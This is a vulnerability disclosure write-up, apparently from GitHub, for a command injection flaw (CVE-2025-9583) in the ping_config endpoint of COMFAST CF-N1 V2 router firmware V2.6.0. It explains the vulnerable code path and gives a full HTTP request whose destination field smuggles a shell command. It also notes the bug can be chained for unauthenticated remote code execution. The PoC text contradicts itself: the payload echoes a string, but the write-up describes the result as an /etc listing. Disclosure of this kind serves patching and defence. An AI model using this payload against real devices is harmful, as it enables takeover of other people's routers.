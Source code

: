 # COMFAST CF-N1 V2 V2.6.0 Command Injection in `ping_config`

PS:

1.Setting up the environment using tools like qemu may be difficult; it is recommended to purchase a physical device.

2.This vulnerability can be combined with CVE-2022-45724 to achieve unauthenticated RCE.

## Overview

A command injection vulnerability exists in the COMFAST CF-N1 V2 (firmware V2.6.0) in the `ping_config` API (`/usr/bin/webmgnt`, function `sub_441EC4`). Attackers can inject arbitrary commands via a user-controlled parameter involved in ping configuration, enabling unauthorized execution of system commands, sensitive information access, or full device compromise.

![PoC 2 Result: Root Directory Listing](./imgs/0.png)

## Details



*   **Vendor**: COMFAST

*   **Vendor Website**: [http://www.comfast.cn/](http://www.comfast.cn/)

*   **Product**: COMFAST CF-N1 V2

*   **Firmware**: V2.6.0

*   **Firmware Download**: http://www.comfast.com.cn/index.php?m=content&c=index&a=show&catid=31&id=772

*   **Endpoint**: `/cgi-bin/mbox-config?method=SET&section=ping_config`

*   **Vulnerability**: Command Injection

*   **CVE ID**: CVE-2025-9583

*   **Impact**: Execute arbitrary system commands, read sensitive files, or take full control of the device.

*   **Reported by**: n0ps1ed (n0ps1edzz@gmail.com)

### Description

The vulnerability originates in the `sub_441EC4` function handling the `ping_config` section. Analysis of the disassembly shows that a user-controlled parameter is unsanitized and directly used in a command construction process.

Key code flow:



1.  The function parses user input via `blobmsg_parse_0`, extracting configuration parameters (including the vulnerable parameter).

2.  The extracted parameter (`v4`) is inserted into a command string using `sprintf_0(v8, &aBinPing4C4W2ST..., v4)`, where `aBinPing4C4W2ST` likely represents a ping command template (e.g., `ping -c 4 %s`).

3.  The constructed command is executed via `system_0(v8)`, with no input sanitization to block malicious command separators.

This allows attackers to inject arbitrary commands by adding delimiters (e.g., `&&`, `;`, `|`) to the vulnerable parameter, as the input is directly concatenated into the executed system command.

![PoC 2 Result: Root Directory Listing](./imgs/1.png)
![PoC 2 Result: Root Directory Listing](./imgs/2.png)

## Proof of Concept (PoC)

### PoC: List `/etc` Directory Contents



```
POST /cgi-bin/mbox-config?method=SET&section=ping_config HTTP/1.1
Host: cflogin.cn
Content-Length: 76
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/118.0.5993.90 Safari/537.36
Content-Type: appliation/json
Origin: http://cflogin.cn
Referer: http://cflogin.cn/guide/guide_router.html
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: COMFAST_SESSIONID=c0a800a0-ffffffc40f08ffffffaaffffff82fffffff0-6b8b4567
Connection: close

{"destination": "127.0.0.1\"; echo  ping config >  /www-comfast/test.txt #"}
```


*   **Assumptions**: The vulnerable parameter is named `destination`.

*   **Steps**:

1.  Send the POST request using `curl`, Burp Suite, or similar tools.

2.  Access `http://cflogin.cn/test.txt` to view the contents of the `/etc` directory.

*   **Result**: The output of `ls /etc` is written to `/www-comfast/test.txt`, confirming arbitrary command execution.
*   
![PoC 2 Result: Root Directory Listing](./imgs/3.png)

